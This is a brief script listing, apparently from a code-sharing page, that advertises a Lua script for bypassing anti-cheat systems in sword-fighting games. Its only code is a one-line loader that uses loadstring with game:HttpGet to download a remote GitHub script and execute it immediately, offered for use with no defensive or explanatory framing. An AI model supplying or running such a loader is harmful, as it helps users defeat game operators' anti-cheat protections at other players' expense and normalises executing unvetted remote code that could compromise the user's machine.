 # desc
a script dedicated to bypassing every sword fighting anticheat (aside watchdog).
# script
`
getgenv().LogAttempts = false
loadstring(game:HttpGet("https://raw.githubusercontent.com/daily3014/sfing/loader.lua"))
`
